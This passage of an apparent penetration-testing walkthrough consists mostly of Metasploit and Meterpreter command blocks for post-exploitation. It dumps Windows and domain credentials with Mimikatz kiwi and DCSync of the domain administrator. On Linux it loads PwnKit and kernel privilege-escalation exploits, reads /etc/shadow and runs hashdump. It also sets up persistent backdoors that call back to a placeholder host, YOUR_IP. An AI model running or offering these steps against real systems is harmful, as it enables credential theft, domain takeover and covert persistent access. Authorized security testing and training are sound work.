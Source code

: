 2. For domain controllers or to access cached domain credentials:
```
# Run Mimikatz for domain hashes
load kiwi
lsa_dump_sam
lsa_dump_secrets
dcsync_ntlm domain\\administrator
```

### Linux Privilege Escalation and Hash Extraction

1. For Linux targets after getting a Meterpreter shell:
```
# Check current user
getuid

# Attempt privilege escalation
sudo -l  # Check sudo permissions
use exploit/linux/local/cve_2021_4034_pwnkit_lpe  # For newer Linux systems
use exploit/linux/local/cve_2019_13272_linux  # Kernel exploit for older systems
```

2. Extract password hashes:
```
# Grab /etc/shadow
cat /etc/shadow

# Use built-in modules
run post/linux/gather/hashdump

# Search for interesting files
run post/multi/gather/interesting_files
```

## Step 5: Maintaining Access (Optional)

If authorized as part of your assessment, you can establish persistence:

### Windows Persistence
```
# Run the persistence module
run persistence -h  # View options
run persistence -X -i 60 -p 443 -r YOUR_IP
```

### Linux Persistence
```
# Create a persistent backdoor
run persistence -h
run persistence -L -i 60 -p 443 -r YOUR_IP
```

## Advanced Splunk-Specific Techniques

